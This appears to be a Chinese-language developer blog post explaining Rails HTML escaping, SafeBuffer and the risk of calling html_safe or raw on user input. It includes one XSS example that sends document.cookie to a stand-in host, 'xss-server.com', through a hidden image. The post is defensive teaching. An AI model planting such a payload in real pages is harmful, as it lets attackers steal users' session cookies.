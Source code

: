 ```yaml
---
layout: post
title: Rails中的html string
---
```


在html语言中，**'"<>&**这个5个符号有着特殊的作用，如定义标签、属性，嵌入JS代码等，但是有时候又需要显示这些字符。那么如何区分呢？

显示的时候转义。

在Rails的active_support/core_ext/string/output_safety.rb中，定义了HTML_ESCAPE = { '&' => '&amp;',  '>' => '&gt;',   '<' => '&lt;', '"' => '&quot;', "'" => '&#39;' }

每个被显示的字符串都会变成SafeBuffer对象的。

如：

```
<%= <script>"alert('ok')"</script> %>  #=> &lt;script&gt;alert(&#39;ok&#39;)&lt;/script&gt;

<%= <script>"alert('ok')"</script>.html_safe %>  #=> <script>"alert('ok')"</script>
```

在Rails中，默认会将输出显示string转码，即调用html_escape；

而如果加上**html_safe**就是认为这个string是安全的，就不去转码而直接写入的html页面里，html_safe和<%= raw "..." %>作用基本相同。

那么这么就是很危险的，因为如果是显示用户的输入，那么用户就可以嵌入一段JS代码，进行XSS攻击了，效果如下：

```
<%= "xss: <script>var img = document.createElement('img');img.style.display='none';img.src='http://xss-server.com/?cookie='+document.cookie;document.getElementsByTagName('body')[0].appendChild(img);</script>".html_safe %>
```

上面就把当前用户的cookie发送走了。

如果真需要不转义那些字符，比如想嵌入一个自己的个性化样式，那么请用sanitize。

如下，所谓调用html_safe，其实是创建一个SafeBuffer实例，然后有一个属性@html_safe为true，这样就不用被html_escape了。

```
class String
  # Marks a string as trusted safe. It will be inserted into HTML with no
  # additional escaping performed. It is your responsibilty to ensure that the
  # string contains no malicious content. This method is equivalent to the
  # `raw` helper in views. It is recommended that you use `sanitize` instead of
  # this method. It should never be called on user input.
  def html_safe
    ActiveSupport::SafeBuffer.new(self) # 在ruby里，这种用法很常见——把自己作为参数。
  end
end
```

# 参考

* https://github.com/rails/rails/blob/master/activesupport/lib/active_support/core_ext/string/output_safety.rb
* https://ruby-china.org/topics/16633
* http://stackoverflow.com/questions/4251284/raw-vs-html-safe-vs-h-to-unescape-html